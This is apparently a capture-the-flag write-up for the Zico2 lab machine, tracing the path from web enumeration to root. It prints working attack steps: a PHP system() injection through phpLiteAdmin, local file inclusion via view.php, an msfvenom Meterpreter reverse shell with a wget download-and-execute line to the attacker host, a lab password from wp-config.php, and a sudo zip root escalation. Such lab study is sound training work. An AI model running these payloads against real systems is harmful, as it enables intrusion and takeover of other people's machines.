






<div align="center">

# Zico2

### CTF Write-up

[English](README.md) | [فارسی](README.fa.md)

</div>

---

## 1. Network Discovery

The first step was to identify the target machine on the local network.

I used `netdiscover` to scan the local network and discover active hosts. The scan output was used to identify the target machine's IP address:

- **Target IP:** `192.168.43.200`

The command-line output is shown below.


This information provides the target IP for the next enumeration steps.

## 2. Web Enumeration

After identifying the target machine, I entered its IP address (`192.168.43.200`) in the web browser.

A simple online store page appeared, confirming that a web application was running on the target machine.


## 3. Directory Enumeration

Next, I used **DIRB** to discover directories and files exposed by the web server:

```bash
dirb http://192.168.43.200
```

The scan identified several paths, including `/css/`, `/dbadmin/`, `/img/`, `/js/`, and `/vendor/`. It also found `/index`, `/index.html`, `/LICENSE`, `/package`, `/server-status`, `/tools`, and `/view`.

One result that stood out was **`/dbadmin/`**. DIRB reported that this directory was listable, meaning its contents could be browsed through the web server. This made it a useful path to investigate further.

Other notable responses included HTTP 403 for `/cgi-bin/` and `/server-status`, while `/index`, `/index.html`, `/LICENSE`, `/package`, and `/tools` returned HTTP 200.


## 4. Accessing phpLiteAdmin

After discovering `/dbadmin/`, I accessed the following path:

`http://192.168.43.200/dbadmin/`

The page presented a phpLiteAdmin login prompt. It did not request a username and only required a password. The password `admin` was accepted, providing access to the administration interface.


## 5. Database Administration Panel

After gaining access, I inspected the available phpLiteAdmin functionality.

The interface provided functionality for creating and managing databases and files. This became the next area of investigation because it exposed functionality beyond the public-facing store application.


## 6. Creating a PHP File

Using the functionality available in the database administration interface, I created a new file named `code.php` within a newly created database context.

At this stage, the important observation was that the interface allowed a PHP file to be created and subsequently accessed through the same interface.


## 7. Editing the PHP File

I then opened the newly created `code.php` file again. The interface exposed a **Default Value** field that could be used to supply the file contents.

The file was opened in the editor, where the **Default Value** field was available for entering the PHP content. The PHP code used during the test is documented in the next steps.


## 8. Preparing a Command in the Database

I selected the database file `/usr/databases/ls.php` in phpLiteAdmin and opened the row insertion form for its table, `a`. In the field named `a`, which is displayed with the `integer` type, I entered a PHP snippet intended to list the contents of `/tmp`.

The PHP code entered in the `a` field was:

```php
<?php system("ls /tmp") ?>
```

The PHP snippet calls `system()` to execute `ls /tmp` on the target. The resulting output is shown in the following request test.


## 9. Testing the `page` Parameter

I inspected the page-loading behaviour of `view.php`. The normal request used the `page` parameter to load `tools.html`:

`http://192.168.43.200/view.php?page=tools.html`

The first screenshot records the page before changing the parameter.


I then changed the parameter to reference the PHP file created earlier, using a relative path that traverses to `/usr/databases/ls.php`:

```text
http://192.168.43.200/view.php?page=../../usr/databases/ls.php
```

The next screenshot shows the response after this request. The output is consistent with the PHP code in `ls.php` being executed and the `ls /tmp` command being run.


This confirms that the `page` parameter can be manipulated to load the PHP file outside the expected page path and execute the command stored in it.

## 10. Generating and Hosting a Meterpreter Payload


After the previous test, I generated a Linux x86 Meterpreter reverse TCP payload with `msfvenom`. The payload was configured to connect back to the Kali machine at `192.168.43.220` on port `444`, and was saved as an ELF file named `IM_HERE` in Apache's document root:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.43.220 lport=444 -f elf > /var/www/html/IM_HERE
```

Metasploit selected Linux as the platform and x86 as the architecture. It reported a payload size of 123 bytes and a final ELF size of 207 bytes.

I verified that the file existed at the specified path:

```bash
ls /var/www/html/IM_HERE
```

Then I started the Apache service:

```bash
systemctl start apache2.service
```

The payload was now available from the Kali web server, and Apache was running to serve it over HTTP. The target-side download and execution are covered in the subsequent steps.


## 11. Preparing the PHP Download-and-Execute Command

I returned to the previously created `code.php` file and entered a PHP command intended to download the Meterpreter payload from the Kali machine, save it under `/tmp/IM_HERE`, make it executable, and run it.

The command entered was:

```php
<?php system("wget -O /tmp/IM_HERE http://192.168.43.220/IM_HERE ; cd /tmp ; chmod 777 IM_HERE; ./IM_HERE");?>
```

The `wget` command specifies `/tmp/IM_HERE` as the download destination. The following commands change the working directory to `/tmp`, change the file permissions, and attempt to execute the downloaded file.


This command was stored in `code.php` and was triggered in the next step by requesting the file through the `page` parameter.


## 12. Starting the Meterpreter Handler

After generating and hosting the payload, I configured Metasploit to wait for its reverse connection. I used the `multi/handler` module and matched its payload settings with the values used when generating `IM_HERE`.

First, I selected the handler module:

```text
use exploit/multi/handler
```

This loads Metasploit's generic handler module, which can listen for incoming connections from a payload.

Next, I selected the exact payload type used earlier:

```text
set payload linux/x86/meterpreter/reverse_tcp
```

This tells the handler to expect a Linux x86 Meterpreter reverse TCP connection. The payload type must match the one generated with `msfvenom`.

I then set the local address:

```text
set lhost 192.168.43.220
```

`LHOST` is the IP address on the Kali machine where the handler should receive the incoming connection.

After that, I configured the listening port:

```text
set lport 444
```

`LPORT` sets the TCP port on which Metasploit waits. It matches the port specified when the payload was generated.

Finally, I started the handler:

```text
exploit
```

Metasploit reported:

```text
[*] Started reverse TCP handler on 192.168.43.220:444
```

The handler was now listening on `192.168.43.220:444`, ready to receive the target's reverse connection.


---

## 13. Triggering the PHP File and Receiving a Shell

With the reverse TCP handler ready on the Kali machine, I sent a request to `view.php` that referenced the PHP file created earlier:

```text
http://192.168.43.200/view.php?page=../../usr/databases/code.php
```

The request caused the target to run the download-and-execute command stored in `code.php`. The payload was downloaded from the Kali web server and executed. A shell connection was received successfully.




The request triggered the PHP command, the payload was downloaded and executed, and the reverse connection provided shell access to the target.

## 14. Enumerating the Home Directory and Finding WordPress Credentials

After obtaining the shell, I moved to `/home/zico` and listed its contents:

```bash
cd /home/zico
ls
```

The directory contained WordPress-related files. I inspected the WordPress configuration file with `cat`:

```bash
cat wp-config.php
```

The configuration exposed a password associated with the local `zico` account:

- **Username:** `zico`
- **Password:** `sWfCsfJSPV9H3AmQzw8`

Ah, WordPress... The configuration file provided the credential needed for the next access attempt. This password is recorded here as a credential found on this specific lab machine; it should not be reused elsewhere.



## 15. Enumerating Network Services

Before trying the recovered credential, I checked which services were exposed by the target:

```bash
nmap -sV 192.168.43.200
```

The scan identified three open TCP ports:

| Port | State | Service | Version |
|---|---|---|---|
| 22/tcp | open | SSH | OpenSSH 5.9p1 Debian 5ubuntu1.10 |
| 80/tcp | open | HTTP | Apache httpd 2.2.22 ((Ubuntu)) |
| 111/tcp | open | rpcbind | 2-4 |

The SSH service on port `22` was the relevant next step because I now had a username and password to test. The scan also identified the web server on port `80` and `rpcbind` on port `111`.



## 16. Logging in Through SSH

Since Nmap confirmed that SSH was available, I tried the recovered credentials:

```bash
ssh zico@192.168.43.200
```

On the first connection, SSH displayed the host authenticity prompt. I accepted the host key by entering `yes`, after which the server prompted for the account password. I entered the password recovered from the WordPress configuration file.

After login, I ran:

```bash
whoami
```

The command returned:

```text
zico
```

This confirmed successful SSH authentication as the local user `zico`.



---


## 17. Checking Sudo Permissions

After logging in over SSH as `zico`, I checked which commands the account was allowed to run through `sudo`:

```bash
sudo -l
```

The output showed that `zico` could run two programs as root without being prompted for a password:

```text
(root) NOPASSWD: /bin/tar
(root) NOPASSWD: /usr/bin/zip
```

This was an important privilege-escalation finding. The `NOPASSWD` setting means sudo does not require the user's password for the listed commands. In this case, both `tar` and `zip` were permitted to run with root privileges.



## 18. Using the Zip Permission to Obtain Root

I used the permitted `zip` binary to obtain a root shell. First, I created an empty file to use as the input to the archive:

```bash
touch shell.php
```

Then I ran:

```bash
sudo -u root zip shell.zip shell.php -T --unzip-command="sh -c /bin/bash"
```

The command works because of the combination of the sudo permission and the options supported by `zip`:

- `sudo -u root` runs the command as the root user.
- `zip shell.zip shell.php` creates an archive named `shell.zip` containing `shell.php`.
- `-T` tells `zip` to test the archive after creating it.
- `--unzip-command="sh -c /bin/bash"` overrides the command that `zip` uses for that archive test. Instead of performing the usual test with an unzip program, it starts a shell command that launches `/bin/bash`.

Because the permitted `zip` process was running as root, the shell launched by the test command also ran with root privileges. The resulting prompt changed to:

```text
root@zico:~#
```

That prompt confirmed that I had obtained a root shell.



## 19. Reading the Root Flag

With root access, I moved to the root user's home directory:

```bash
cd /root
```

I listed the available files and read `flag.txt`:

```bash
cat flag.txt
```

The file contained the following message:

```text
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#
```

This confirmed completion of the machine: I had escalated from the `zico` account to root and successfully read the root flag.


